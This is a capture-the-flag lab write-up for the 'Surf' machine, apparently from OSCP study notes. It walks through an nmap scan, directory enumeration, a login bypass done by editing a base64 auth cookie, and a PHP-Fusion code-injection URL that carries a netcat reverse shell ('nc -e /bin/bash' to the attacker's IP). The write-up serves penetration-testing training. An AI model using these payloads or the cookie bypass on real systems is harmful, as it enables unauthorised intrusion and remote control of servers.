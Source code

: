 #### Enumeration

```
# Nmap 7.91 scan initiated Sun Nov 14 05:24:04 2021 as: nmap -vv --reason -Pn -T4 -sV -sC --version-all -A --osscan-guess -p- -oN /home/kali/Documents/OffSecPG/Surf/AutoRecon/results/192.168.73.171/scans/_full_tcp_nmap.txt -oX /home/kali/Documents/OffSecPG/Surf/AutoRecon/results/192.168.73.171/scans/xml/_full_tcp_nmap.xml 192.168.73.171
Increasing send delay for 192.168.73.171 from 0 to 5 due to 11 out of 11 dropped probes since last increase.
Increasing send delay for 192.168.73.171 from 5 to 10 due to 11 out of 22 dropped probes since last increase.
Warning: 192.168.73.171 giving up on port because retransmission cap hit (6).
Nmap scan report for 192.168.73.171
Host is up, received user-set (0.21s latency).
Scanned at 2021-11-14 05:24:05 EST for 1150s
Not shown: 65529 closed ports
Reason: 65529 resets
PORT      STATE    SERVICE REASON         VERSION
22/tcp    open     ssh     syn-ack ttl 63 OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 74:ba:20:23:89:92:62:02:9f:e7:3d:3b:83:d4:d9:6c (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDGGcX/x/M6J7Y0V8EeUt0FqceuxieEOe2fUH2RsY3XiSxByQWNQi+XSrFElrfjdR2sgnauIWWhWibfD+kTmSP5gkFcaoSsLtgfMP/2G8yuxPSev+9o1N18gZchJneakItNTaz1ltG1W//qJPZDHmkDneyv798f9ZdXBzidtR5/+2ArZd64bldUxx0irH0lNcf+ICuVlhOZyXGvSx/ceMCRozZrW2JQU+WLvs49gC78zZgvN+wrAZ/3s8gKPOIPobN3ObVSkZ+zngt0Xg/Zl11LLAbyWX7TupAt6lTYOvCSwNVZURyB1dDdjlMAXqT/Ncr4LbP+tvsiI1BKlqxx4I2r
|   256 54:8f:79:55:5a:b0:3a:69:5a:d5:72:39:64:fd:07:4e (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBCpAb2jUKovAahxmPX9l95Pq9YWgXfIgDJw0obIpOjOkdP3b0ukm/mrTNgX2lg1mQBMlS3lzmQmxeyHGg9+xuJA=
|   256 7f:5d:10:27:62:ba:75:e9:bc:c8:4f:e2:72:87:d4:e2 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIE0omUJRIaMtPNYa4CKBC+XUzVyZsJ1QwsksjpA/6Ml+
80/tcp    open     http    syn-ack ttl 63 Apache httpd 2.4.38 ((Debian))
|_http-favicon: Unknown favicon MD5: 556F31ACD686989B1AFCF382C05846AA
| http-methods: 
|_  Supported Methods: OPTIONS HEAD GET POST
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Surfing blog
25803/tcp filtered unknown no-response
40073/tcp filtered unknown no-response
42514/tcp filtered unknown no-response
58164/tcp filtered unknown no-response
Aggressive OS guesses: Linux 2.6.32 (91%), Linux 2.6.39 (91%), Linux 3.10 - 3.12 (91%), Linux 3.4 (91%), Linux 3.5 (91%), Linux 4.4 (91%), Synology DiskStation Manager 5.1 (91%), Linux 2.6.35 (90%), Linux 3.10 (90%), Linux 2.6.32 or 3.10 (90%)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.91%E=4%D=11/14%OT=22%CT=1%CU=41788%PV=Y%DS=2%DC=T%G=Y%TM=6190E8
OS:43%P=x86_64-pc-linux-gnu)SEQ(SP=107%GCD=1%ISR=10C%TI=Z%II=I%TS=A)OPS(O1=
OS:M506ST11NW7%O2=M506ST11NW7%O3=M506NNT11NW7%O4=M506ST11NW7%O5=M506ST11NW7
OS:%O6=M506ST11)WIN(W1=FE88%W2=FE88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)ECN(R=Y
OS:%DF=Y%T=40%W=FAF0%O=M506NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD
OS:=0%Q=)T2(R=N)T3(R=N)T4(R=N)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=
OS:)T6(R=N)T7(R=N)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G
OS:%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Uptime guess: 3.956 days (since Wed Nov 10 06:47:01 2021)
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=264 (Good luck!)
IP ID Sequence Generation: All zeros
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 8080/tcp)
HOP RTT       ADDRESS
1   209.35 ms 192.168.49.1
2   208.30 ms 192.168.73.171

Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Nov 14 05:43:15 2021 -- 1 IP address (1 host up) scanned in 1151.78 seconds

```

After browsing a while, the website looks nothing interesting. We use feroxbuster to discover new content.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Surf/Surf_2021.11.21_11h00m37s_001_.png)

We find a administration directory that is a login page. Using hydra with username ```admin``` to try to brute force a valid credential but failed.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Surf/Surf_2021.11.21_11h01m56s_002_.png)

I use Burp Sutie for further analysis. There is an interesting setting in login page.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Surf/Surf_2021.11.21_11h02m39s_003_.png)

We decode auth_status base64 string and get a string ```{'success':'false'}```. 

![iamge](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Surf/Surf_2021.11.21_11h03m30s_004_.png)

Trying to modify it to bypass the login verification.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Surf/Surf_2021.11.21_13h15m30s_005_.png)

We log in successfully.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Surf/Surf_2021.11.21_13h19m42s_006_.png)

The ```Check Server Status``` page can check that the server where is installed PHP-Fusion is correctly running.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Surf/Surf_2021.11.21_14h00m22s_007_.png)

I found an RCE [vulnerability](https://www.exploit-db.com/exploits/49911) related to PHP-Fusion. Refer to the vulnerability description we create a new request payload to try to get the reverse shell.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Surf/Surf_2021.11.21_14h28m33s_008_.png)

Encoding the connection string to base64 format and make sure to add spaces to avoid ```+``` or ```=```.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Surf/Surf_2021.11.21_15h49m48s_009_.png)

```
echo "nc -e /bin/bash 192.168.49.162 80  " | base64
```

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Surf/Surf_2021.11.21_16h07m15s_010_.png)

We now combine request and base64 strings and modify the request url in Burp Suite.

```
http://127.0.0.1:8080/infusions/downloads/downloads.php?cat_id=${system(base64_decode(bmMgLWUgL2Jpbi9iYXNoIDE5Mi4xNjguNDkuMTYyIDgwICAK))}
```

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Surf/Surf_2021.11.21_16h22m10s_011_.png)

Getting the shell successfully.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Surf/Surf_2021.11.21_16h31m46s_012_.png)
